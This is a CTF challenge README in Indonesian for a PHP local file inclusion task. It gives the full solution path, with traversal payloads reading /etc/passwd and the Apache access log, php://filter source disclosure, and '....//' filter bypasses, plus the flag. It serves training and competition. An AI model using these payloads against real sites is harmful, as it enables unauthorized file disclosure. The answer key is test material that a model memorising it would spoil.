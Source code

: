 # SOAL HOLOGY Web Exploitation #3

### Judul : MyAnimal

### Author : wuvel

## Deskripsi

Help me to find the important missing page! The Admin has created a bot to access the important page frequently to prevent that. But the Admin forgot the bot password. The admin said the bot still running and doing its job. So how do i retrieve the missing page?

## Konsep Soal

- Vulnerability yang diterapkan adalah LFI (Local File Inclusion) dengan beberapa proteksi tambahan, yaitu blokir string "../" dan User hanya dapat mengakses file dengan nama binatang (fox, dog, dan cat) di dalamnya.
- Peserta diharapkan akan membaca source code dog.php menggunakan PHP Filter setelah berhasil mem-bypass proteksi tadi dan akan menemukan clue.
- Clue tersebut akan menuntun Peserta untuk mengakses log apache yang di sana akan ada bot yang mengakses halaman flag setiap 1 menit sekali.


## Proof of Concept

- Mengakses website yang diberikan, lalu dengan jelas diberikan fitur untuk melihat foto binatang dengan php include.

- Karena sudah jelas bahwa bisa dieksploitasi menggunakan Local File Inclusion, maka langsung saja kita masukan payload basic:
  ```
  ../../../../../../etc/passwd
  ```
- User akan mendapatkan pesan "Sorry, only dog, fox, and cat are allowed.". Karena kita hanya boleh melihat foto binatang-binatang tersebut saja.
- User mem-bypass proteksi tersebut dengan memasukkan payload:
  ```
  Contoh: 
  dog/../../../etc/passwd
  ```
- User menyadari pesan error:
  ```
  Warning: include(dog/etc/passwd.php): failed to open stream: No such file or directory in C:\xampp\htdocs\index.php on line 166
  ```
- Karena sudah tahu bahwa extensionnya akan selalu berakhiran .php, maka User akan mencoba menggunakan PHP Filter dengan payload:
  ```
  php://filter/convert.base64-encode/resource=dog/../index
  ```
- User menyadari kembali jika string "../" akan dihilangkan. Maka dengan mudah User akan mem-bypassnya menggunakan payload:
  ```
  php://filter/convert.base64-encode/resource=dog/....//index
  ```
- User mendapatkan source-code index.php tetapi dengan representasi base64. User mendecodenya (jika perlu) untuk mencari hint selanjutnya. Hint selanjutnya berada pada file dog.php, maka User menggunakan payload tadi untuk mendapatkan source codenya.
  ```
  Payload:
  php://filter/convert.base64-encode/resource=dog
  
  Hasil:
  <?php  
  $flag = "Nice, the flag is behind that LOG";
  ?>
  <img width="460" height="460" class="center" src="dogs/<?php echo rand(1, 5); ?>.png" />
  ```
- User melihat hint tersebut dan tahu bahwa User harus mengakses log. User mengakses apache log dengan menggunakan payload:
  ```
  dog/....//....//....//....//....//....//....//....//....//....//....//....//var/log/apache2/access.log
  ```
- User melihat bahwa "bot" mengakses halaman "ini_flagnya_beneran_ga_bohongxixixi.html".
- User mengkases halaman tersebut pada website dan mendapatkan flagnya!


## Hints

<code>None</code>

## Deployment

1. Jalankan perintah
    ```
    docker-compose up -d
    crontab /path/to/crontab
    ```
   Pada direktori "deploy"
2. Buat script yang dijalanin bot (bisa server lain / server yang sama), taruh script berikut.
    ```
    curl http://localhost/ini_flagnya_beneran_ga_bohongxixixi.html > /dev/null 2>&1
    ```
   Jangan lupa dijadikan cronjob setiap 1 menit.

## Flag

<details>
<summary>Tekan untuk melihat flag</summary>

    hology3{3z_bYp4s5_LFI_y4_kh4n}

</details>

